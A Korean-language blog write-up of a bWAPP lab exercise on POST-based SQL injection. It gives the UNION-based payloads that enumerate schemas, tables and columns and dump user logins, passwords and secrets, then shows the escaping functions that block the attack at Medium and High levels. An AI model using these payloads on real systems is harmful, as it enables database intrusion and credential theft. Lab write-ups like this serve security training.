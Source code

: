 ```yaml
---
layout: single
title: (bWAPP)SQL Injection POST/Search
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/sqlp-select/image.png)

- Select 기능을 통해 특정 값을 추출함
- 입력값을 전달할 수 있는 방안이 페이지상에 없어 Proxy Tool을 사용

![그림 1-2](/assets/image/bwapp/sqlp-select/image2.png)

- 입력값은 POST 형식으로 전송
- movie 파라미터에 int 형으로 전송

![그림 1-3](/assets/image/bwapp/sqlp-select/image3.png)

- '(싱글쿼터) 를 통해 DBMS Error 유/무 확인
- DBMS Error 에러발생

```sql
1 order by 8-- 
```

- order by 절 을 사용하여 컬럼 개수 파악
- 7개의 컬럼 존재 추정
![그림 1-4](/assets/image/bwapp/sqlp-select/image4.png)
- 우선 출력포지션을 확인했다.

```sql
1 and 1=2 union select 1,2,3,4,5,6,7--
```

![그림 1-5](/assets/image/bwapp/sqlp-select/imag5.png)
- 이후 동일하게 테이블명, 컬럼명, 데이터 추출을 시도함.

```sql
1 and 1=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata limit 2,1--
```

```sql
1 and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP' limit 3,1--
```

```sql
1 and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1--
```

```sql
 and 1=2 union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users limit 
 
 ![그림 1-6](/assets/image/bwapp/sqlp-select/image6.png)
 ```

- 성공적으로 id, login, password, secret 데이터를 출출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

